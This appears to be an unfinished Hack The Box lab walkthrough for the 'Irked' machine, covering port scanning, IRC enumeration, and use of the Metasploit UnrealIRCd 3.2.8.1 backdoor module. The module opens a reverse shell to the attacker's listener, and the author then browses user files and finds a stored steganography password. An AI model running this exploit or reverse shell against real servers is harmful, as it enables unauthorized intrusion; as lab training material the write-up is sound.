

# [07 - Irked](https://app.hackthebox.com/machines/Irked)



## description
> 10.10.10.117

## walkthrough

### recon

```
$ nmap -sV -sC -A -Pn -p- irked.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-24 07:34 MDT
Nmap scan report for irked.htb (10.10.10.117)
Host is up (0.058s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34435/tcp   status
|   100024  1          51905/udp6  status
|   100024  1          55936/udp   status
|_  100024  1          60129/tcp6  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
34435/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80

> IRC is almost working


given the nmap scan showing that IRC is running, not sure web is going to give us much more.

```
/.hta                 (Status: 403) [Size: 288]
/.htpasswd            (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 293]
/index.html           (Status: 200) [Size: 72]
/manual               (Status: 301) [Size: 307] [--> http://irked.htb/manual/]
/server-status        (Status: 403) [Size: 297]
```

separate note - consider creating a gobuster alias that always `-r` and `-f`

### 6697

it's been ... a while since connecting to irc. irssi?

```
07:41 -!- Irssi v1.2.2-2ubuntu1 - https://irssi.org
07:42 -!- Irssi: Unknown command: server irked.htb
07:42 -!- Irssi: Looking up irked.htb
07:42 -!- Irssi: Connecting to irked.htb [10.10.10.117] port 6697
07:42 -!- Irssi: Connection to irked.htb established
07:42 !irked.htb *** Looking up your hostname...
07:42 !irked.htb *** Couldn't resolve your hostname; using your IP address instead
07:42 -!- You have not registered
07:42 -!- Welcome to the ROXnet IRC Network conor!conor@10.10.14.9
07:42 -!- Your host is irked.htb, running version Unreal3.2.8.1
07:42 -!- This server was created Mon May 14 2018 at 13:12:50 EDT
07:42 -!- irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
07:42 -!- UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 are supported by this      server
07:42 -!- WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr
          ELIST=MNUCT STATUSMSG=~&@%+ are supported by this server
07:42 -!- EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP are supported by this server
07:42 -!- There are 1 users and 0 invisible on 1 servers
07:42 -!- 1 unknown connection(s)
07:42 -!- I have 1 clients and 0 servers
07:42 -!- Current Local Users: 1  Max: 1
07:42 -!- Current Global Users: 1  Max: 1
07:42 -!- MOTD File is missing
07:42 -!- Mode change [+iwx] for user conor
```

```
msf6 > search unrealircd

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution
```

we have a match.

```
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 10.10.14.9:4444
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Command shell session 1 opened (10.10.14.9:4444 -> 10.10.10.117:49196) at 2022-07-24 07:46:30 -0600

id -a
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

### ircd

```
pwd
/home/ircd/Unreal3.2
ls -la /home
total 16
drwxr-xr-x  4 root     root     4096 May 14  2018 .
drwxr-xr-x 21 root     root     4096 May 15  2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 djmardov
drwxr-xr-x  3 ircd     root     4096 May 15  2018 ircd

ls -la /home/ircd
total 20
drwxr-xr-x  3 ircd root 4096 May 15  2018 .
drwxr-xr-x  4 root root 4096 May 14  2018 ..
-rw-------  1 ircd ircd  333 May 15  2018 .bash_history
-rw-r--r--  1 ircd ircd    0 May 14  2018 .bashrc
-rw-r--r--  1 ircd ircd   66 May 14  2018 .selected_editor
drwx------ 13 ircd ircd 4096 Jul 24 09:33 Unreal3.2
cat /home/ircd/.bash_history
ls
cat aliases
lskeys
ls keys
ls keys/CVS
cd keys
ls
file CVS
cd CVS
ls
ls Root
cat Root/Root
cd Root
ls
file Root
cat Root
cd /
ls
cd /home
ls
cd djmardov
ls
ls *
cd /tmp
ls
clear
clear
ls
cd /
ls
cd /var/www/html
ls
cd /tmp
sudo -i
cd /home/ircd
clear
ls
ls -lah
cd ..
ls
cd djmardov
ls
cd Documents
ls -lah
cat .backup
clear
exit
```

interesting usually see that `.bash_history` is symlinked to `/dev/null`
going to need to pop djmardov on the way up

```
ls -la /home/djmardov
total 92
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 .
drwxr-xr-x  4 root     root     4096 May 14  2018 ..
lrwxrwxrwx  1 root     root        9 Nov  3  2018 .bash_history -> /dev/null
-rw-r--r--  1 djmardov djmardov  220 May 11  2018 .bash_logout
-rw-r--r--  1 djmardov djmardov 3515 May 11  2018 .bashrc
drwx------ 13 djmardov djmardov 4096 May 15  2018 .cache
drwx------ 15 djmardov djmardov 4096 May 15  2018 .config
drwx------  3 djmardov djmardov 4096 May 11  2018 .dbus
drwxr-xr-x  2 djmardov djmardov 4096 May 11  2018 Desktop
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 Documents
drwxr-xr-x  2 djmardov djmardov 4096 May 14  2018 Downloads
drwx------  3 djmardov djmardov 4096 Nov  3  2018 .gconf
drwx------  2 djmardov djmardov 4096 May 15  2018 .gnupg
-rw-------  1 djmardov djmardov 4706 Nov  3  2018 .ICEauthority
drwx------  3 djmardov djmardov 4096 May 11  2018 .local
drwx------  4 djmardov djmardov 4096 May 11  2018 .mozilla
drwxr-xr-x  2 djmardov djmardov 4096 May 11  2018 Music
drwxr-xr-x  2 djmardov djmardov 4096 May 11  2018 Pictures
-rw-r--r--  1 djmardov djmardov  675 May 11  2018 .profile
drwxr-xr-x  2 djmardov djmardov 4096 May 11  2018 Public
drwx------  2 djmardov djmardov 4096 May 11  2018 .ssh
drwxr-xr-x  2 djmardov djmardov 4096 May 11  2018 Templates
drwxr-xr-x  2 djmardov djmardov 4096 May 11  2018 Videos
```

... but no `user.txt`?

```
find / -iname user.txt -type f 2>/dev/null
/home/djmardov/Documents/user.txt
ls -la /home/djmardov/Documents
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
```

ok, `user.txt` is there, but not readable by us.. though `.backup` is

```
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

`steg` not `ssh` password.. 


## flag
```
user:
root:
```
